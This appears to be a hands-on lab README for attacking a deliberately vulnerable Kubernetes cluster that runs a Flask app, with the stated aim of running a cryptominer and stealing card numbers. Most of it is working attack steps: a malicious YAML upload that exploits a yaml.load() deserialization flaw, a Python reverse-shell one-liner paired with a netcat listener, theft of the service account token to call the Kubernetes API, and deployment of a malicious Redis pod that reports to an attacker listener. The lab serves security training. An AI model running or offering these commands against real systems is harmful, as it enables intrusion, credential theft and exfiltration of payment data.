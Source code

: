 ## Attacking a Kubernetes Cluster

### Start the Vulnerable K8s Cluster

1. Run `./setup_insecure_kube.sh` to start the vulnerable K8s Cluster. Wait for the command to be done
2. Run `./setup_flask_stack.sh` to start the flask stack to be run on the cluster. Wait for the command to complete

### Verifying that the K8s stack is running

1. Run `kubectl get pods` should give you something like this:

    ```
        NAME            READY     STATUS    RESTARTS   AGE
        ngflask-redis   3/3       Running   0          1m
    ```

Make sure the `Status` is `Running`

2. Run `kubectl get svc` to check for running services. You should see:

    ```
    NAME                    TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
    kubernetes              ClusterIP   10.96.0.1        <none>        443/TCP        15m
    ngflask-redis-service   NodePort    10.105.196.230   <none>        80:30070/TCP   1m

    ```

    Your `ngflask-redis-service` Cluster IP and Ports may vary based on your machine

3. Finally run `minikube service ngflask-redis-service --url` to get a full URL of the final service. Open your browser and paste this value.

It will be something like this `http://<IP>:<someport>`

Once you open in your browser, you must see this response: `Please POST JSON requests to this URL`. This means the service running correctly.

### Generating Artifacts

1. In a separate terminal or browser make an HTTP GET request to `http://<IP>:<someport>/generate`
It should come back with this response:
    ```
    {
        "success": "10 transactions generated successfully"
    }
    ```

Now, if you go to the `/status` url, you should see the latest transaction that has been logged by our app.

```
Latest Transaction Status
amount: 482
name: Samuel Chandler
card: ********8854
expiration: 425
Status: Success
```

#### Our objective is to compromise this cluster. Run our cryptominer and steal card numbers 😉

### Exploiting a Deserialization Flaw

* Our Flask app has a `yaml.load()` deserialization flaw. Using this flaw, one can potentially gain access to execute code on the backend-server. We will be using this vulnerability to exploit our app.
* Our app allows us to upload yaml files to capture expense information. We will load a malicious yaml file that should execute code for us.
* Run: `cd payloads`
* Run: (to upload the yaml file and identify the flaw)

```
http --form POST http://<IP>:<PORT>/upload file@test_payment.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:34:52 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```
* Now go to the `/status` url, and you should see this (dump of all the environment variables)

### Reverse TCP Shell on our K8s Cluster

* you should be in the payloads directory. Open `reverse_shell.yml` with `atom reverse_shell.yml`
* change the external IP address to your VM's IP address with ifconfig. Also make sure that port 1337 is available on your VM
    `["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.2.3\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]`
* open a separate terminal and start your netcat listener by running `nc -l 1337`
* Now run:

```
http --form POST http://<IP>:<PORT>/upload file@reverse_shell.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:43:59 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

You should have gotten a netcat reverse TCP shell!
```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #

```
Now you can interact with your target app and backend K8s cluster

**NOTE: Do NOT use the clear or Commd/Ctrl+C key. you will lose access to the shell**

### Pivoting to K8s cluster

* Navigate to `cd /run/secrets/kubernetes.io/serviceaccount` and run `ls -al`
* open and copy the token with `cat token` and copy to clipboard
* Now run: `export TOKEN=(paste token value here)`
* We are now going to masquerade with the cluster-admin's token.
* Let's start interacting with K8s API

    `curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
    
    `curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`

You should see a JSON Dump of all the pods and services running in the cluster at this time

Note `clusterIP` of the `redis-service` Service.

Open a new tab in terminal and launch a web-server by running `./tornado_server.py`

Change the value of `MASTERHOST` with the value of `clusterIP`.

Change the value of `LISTENER_IP` with the VM IP that can be fetched by running `ifconfig`

Change the value of `LISTENER_PORT` to the port web-server is running on(`9090`)

```
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "10.109.162.114"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTENER_IP",
                "value": "192.168.2.116"
              },
              {
                "name": "LISTENER_PORT",
                "value": "9090"
              }
            ]
        }]
    }
}
EOF
```

`curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure`

`curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
